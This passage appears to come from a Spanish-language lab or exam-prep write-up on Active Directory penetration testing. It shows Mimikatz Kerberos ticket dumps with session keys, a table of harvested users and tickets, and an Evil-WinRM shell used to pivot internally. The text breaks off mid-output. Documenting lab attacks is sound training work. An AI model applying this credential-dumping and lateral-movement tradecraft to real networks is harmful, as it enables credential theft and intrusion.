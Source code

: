 ```powershell
             f5ac274fe2e4c8131b58c976f23b5810f525d2da075820656690796c342e822b
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 6        [...]

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 7/25/2025 5:54:35 AM ; 7/25/2025 3:04:09 PM ; 8/1/2025 5:04:09 AM
           Service Name (02) : krbtgt ; OSCP.EXAM ; @ OSCP.EXAM
           Target Name  (--) : @ OSCP.EXAM
           Client Name  (01) : MS01$ ; @ OSCP.EXAM ( $$Delegation Ticket$$ )
           Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ; forwardable ; 
           Session Key       : 0x00000001 - des_cbc_crc      
             25775825adf76345020d50c3e4bc3b16422f8bd32d6158e47bf0f09459763732
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
         [00000001]
           Start/End/MaxRenew: 7/25/2025 5:04:09 AM ; 7/25/2025 3:04:09 PM ; 8/1/2025 5:04:09 AM
           Service Name (02) : krbtgt ; OSCP.EXAM ; @ OSCP.EXAM
           Target Name  (02) : krbtgt ; OSCP.EXAM ; @ OSCP.EXAM
           Client Name  (01) : MS01$ ; @ OSCP.EXAM ( OSCP.EXAM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ; 
           Session Key       : 0x00000001 - des_cbc_crc      
             c81cf676e018c001de9a82eb8282651d05612bbb0a926ba4cbb19cf2d51f0d3a
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]

```
#### Inofrmacion Ordenada de sekurlsa::tikets

| # | User              | Domain           | Session             | Logon Server | Logon Time          | SID                   | Ticket Type   | Service(s)                   |
| - | ----------------- | ---------------- | ------------------- | ------------ | ------------------- | --------------------- | ------------- | ---------------------------- |
| 1 | **eric.wallows**  | oscp.exam        | Network             | DC01         | 2025-07-25 06:02:23 | S-1-5-21-2610...-7605 | TGS           | ms01\$                       |
| 2 | **celia.almeda**  | OSCP.EXAM        | Interactive         | DC01         | 2025-02-12 14:30:33 | S-1-5-21-2610...-1105 | TGS           | ProtectedStorage, cifs, LDAP |
| 3 | **Mary.Williams** | MS01             | Service             | MS01         | 2025-02-12 14:30:09 | S-1-5-21-2114...-1002 | (none listed) | (none listed)                |
| 4 | **DWM-1**         | Window Manager   | Interactive         | (null)       | 2025-02-12 14:30:08 | S-1-5-90-0-1          | (none listed) | (none listed)                |
| 5 | **UMFD-1**        | Font Driver Host | Interactive         | (null)       | 2025-02-12 14:30:08 | S-1-5-96-0-1          | (none listed) | (none listed)                |
| 6 | **UMFD-0**        | Font Driver Host | Interactive         | (null)       | 2025-02-12 14:30:08 | S-1-5-96-0-0          | (none listed) | (none listed)                |
| 7 | **LOCAL SERVICE** | NT AUTHORITY     | Service             | (null)       | 2025-02-12 14:30:08 | S-1-5-19              | (none listed) | (none listed)                |
| 8 | **MS01\$**        | OSCP.EXAM        | Service / Undefined | (null)       | 2025-02-12 14:30:08 | S-1-5-20 / S-1-5-18   | TGS           | cifs, ldap, DNS, krbtgt      |

> Con esta informacion podemos comenzar a apuntar hacia la red interna revisamos desde **eric.wallows**

```powershell
*Evil-WinRM* PS C:\Users\eric.wallows\Documents> ipconfig
                                                                                                                                                                                                                  
Windows IP Configuration                                                                                                                                                                                          
                                                                                                                                                                                                                  
                                                                                                                                                                                                                  
Ethernet adapter Ethernet0:                                                                                                                                                                                       
                                                                                                                                                                                                                  
   Connection-specific DNS Suffix  . :                                                                                                                                                                            
```
